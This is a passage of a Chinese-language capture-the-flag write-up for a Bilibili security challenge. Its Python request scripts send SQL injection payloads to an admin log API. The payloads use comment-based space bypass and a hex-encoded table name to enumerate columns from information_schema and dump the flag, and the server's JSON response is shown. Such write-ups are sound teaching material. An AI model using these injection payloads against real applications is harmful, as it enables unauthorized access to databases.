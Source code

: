 获取 flag 表的字段，由于不能引号所以用十六进制绕过，flag 十六进制即 `666c6167`：

```
import requests

url = "https://security.bilibili.com/sec1024/q/admin/api/v1/log/list"
json_data = {
    "user_id": "",
    "user_name": "1/**/union/**/select/**/database(),user(),3,4,group_concat(column_name)/**/from/**/information_schema.columns/**/where/**/table_schema=database()/**/and/**/table_name=0x666c6167#",
    "action": "",
    "page": 1,
    "size": 20
}

response = requests.post(url=url, json=json_data)
print(response.text)

```

返回内容可以得到一个字段，id：

```
{
     "code": 200,
     "data": {
          "res_list": [
               {
                    "action": "4",
                    "id": "q",
                    "time": "id",
                    "user_id": "test@10.34.12.128",
                    "user_name": "3"
               }
          ],
          "total": 1
     },
     "msg": ""
}

```

最后直接拿下 flag：

```
import requests

url = "https://security.bilibili.com/sec1024/q/admin/api/v1/log/list"
json_data = {
    "user_id": "",
    "user_name": "1/**/union/**/select/**/database(),user(),3,4,group_concat(id)/**/from/**/flag#",
    "action": "",
    "page": 1,
    "size": 20
}

response = requests.post(url=url, json=json_data)
print(response.text)

```
